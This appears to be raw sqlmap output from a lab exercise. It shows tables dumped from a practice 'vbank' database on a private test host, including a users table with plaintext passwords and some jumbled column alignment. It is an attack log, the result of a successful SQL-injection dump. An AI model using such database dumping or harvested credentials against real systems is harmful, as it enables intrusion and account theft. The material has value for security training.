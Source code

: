 ```bash

[06:38:00] [INFO] table 'vbank.branches' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.37.128/dump/vbank/branches.csv'                                                                                                                              
[06:38:00] [INFO] fetching columns for table 'banks' in database 'vbank'
[06:38:00] [INFO] fetching entries for table 'banks' in database 'vbank'
Database: vbank
Table: banks
[4 entries]
+----+----------+--------+
| id | code     | name   |
+----+----------+--------+
| 1  | 20999999 | P-Bank |
| 2  | 20888888 | C-Bank |
| 3  | 20555555 | S-Bank |
| 4  | 41131337 | V-Bank |
+----+----------+--------+
                                                                                                    
[06:38:00] [INFO] fetching columns for table 'typesAcc' in database 'vbank'
[06:38:00] [INFO] fetching entries for table 'typesAcc' in database 'vbank'
Database: vbank
Table: typesAcc
[2 entries]
+----+--------+
| id | name   |
+----+--------+
| 1  | Local  |
| 2  | Global |
+----+--------+

[06:38:00] [INFO] table 'vbank.typesAcc' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.37.128/dump/vbank/typesAcc.csv'                                                                                                                              
[06:38:00] [INFO] fetching columns for table 'loans' in database 'vbank'
[06:38:00] [INFO] fetching entries for table 'loans' in database 'vbank'
Database: vbank
Table: loans
[6 entries]

Database: vbank
Table: users
[5 entries]
+---------------------+-------------+---------------------+---------------------+---------------------+----------+----------+-----------+
| id                  | name        | time                | lastip              | lasttime            | password | username | firstname |
+---------------------+-------------+---------------------+---------------------+---------------------+----------+----------+-----------+
| 1                   | Lexo        | 2014-03-02 00:00:00 | 192.168.37.128      | 2021-05-24 05:28:33 | test1234 | alex     | Alex      |
| 2                   | Obby        | 2014-03-02 00:00:00 | 192.168.37.128      | 2021-05-23 15:38:18 | b0BP4S5  | bob      | Bob       |
| 2021-04-21 11:45:18 | <blank>     | 3                   | smurf               | smurf               | <blank>  | <blank>  | 127.0.0.1 |
| 2021-04-21 13:09:28 | <blank>     | 77                  | metest              | metest              | <blank>  | <blank>  | 127.0.0.1 |
| 127.0.0.1           | password123 | chaplin             | 2021-05-01 18:32:08 | charlie             | charlie  | <blank>  | 99999     |
+---------------------+-------------+---------------------+---------------------+---------------------+----------+----------+-----------+

[06:38:00] [INFO] table 'vbank.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.37.128/dump/vbank/users.csv'
```